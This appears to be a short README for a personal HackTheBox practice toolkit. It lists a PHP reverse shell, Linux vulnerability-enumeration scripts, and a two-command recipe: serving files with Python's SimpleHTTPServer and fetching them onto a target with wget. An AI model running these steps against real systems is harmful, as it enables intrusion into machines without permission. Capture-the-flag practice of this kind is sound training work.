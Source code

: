 # Hackthebox tools
<p><b>shell.php</b> : Use for reverse shell when uploaded to vuln machine</p>
<p><b>les.sh and LinEnum.sh</b> : Use for detect vuln in Linux machine</p>

<b><p>How to upload files to vuln linux machine</p></b>
<p>In your machine type : python -m SimpleHTTPServer</p>
<p>In vuln machine type : wget <your ip address>:8000/<file to upload></p>
